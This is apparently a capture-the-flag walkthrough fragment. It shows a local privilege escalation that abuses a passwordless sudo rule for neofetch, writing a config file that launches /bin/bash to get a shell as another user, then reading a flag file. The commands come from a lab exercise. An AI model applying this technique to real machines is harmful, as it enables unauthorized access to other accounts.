




1. Look at the ‘sudo’ permissions of “www.data” user.
www-data@first:/$ sudo -l
Output:

User “www-data” can run the command “/bin/neofetch” as “first” user without entering any password.
2. From https://gtfobins.github.io/gtfobins/neofetch/ use the “sudo” option.

www-data@first:/cd /tmp
www-data@first:/tmp$ echo '/bin/bash' > neof
www-data@first:/tmp$ cat neof
www-data@first:/tmp$ sudo -u first neofetch --config neof
first@first:/tmp$ cd
first@first:~$ id
Output:

3. Get the flag.
first@first:/$ cd /home/first
first@first:~$ ls
first@first:~$ cat user.txt
Output:
